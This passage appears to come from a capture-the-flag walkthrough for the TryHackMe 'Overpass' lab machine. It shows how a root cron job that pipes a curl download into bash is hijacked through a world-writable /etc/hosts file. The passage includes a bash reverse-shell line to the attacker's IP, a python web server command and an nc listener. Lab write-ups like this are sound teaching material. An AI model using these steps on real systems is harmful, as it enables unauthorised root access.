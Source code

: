 ~~~
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
~~~

This cronjob takes a bash script from a virtual host called **"overpass.thm"** and runs it. We can verify that it's a virtual host after checking `/etc/hosts`. Luckily this file is writable for us:

~~~
james@overpass-prod:/tmp$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
~~~

We can use this permission to change the IP of the virtual host to our IP and then create the same directory tree and replace the final script with a bash reverse shell and because the cronjob is being ran by root, we will gain a root shell.

First change the IP in front of "overpass.thm" in `/etc/hosts` to yours:

~~~
james@overpass-prod:/etc$ cat hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.9.0.223 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
~~~

Then create the same directories on your machine:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/www]
└─$ mkdir downloads && cd downloads && mkdir src && cd src && touch buildscript.sh

┌──(user㉿Y0B01)-[~/…/Overpass/www/downloads/src]
└─$ echo "bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1" > buildscript.sh
~~~

Now we start a server where the directories start (www in my case), so when the target machine tries to connect to the virtual host, it connects to us and runs our script:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/www]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

And finally we start a listener and wait:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Overpass]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~
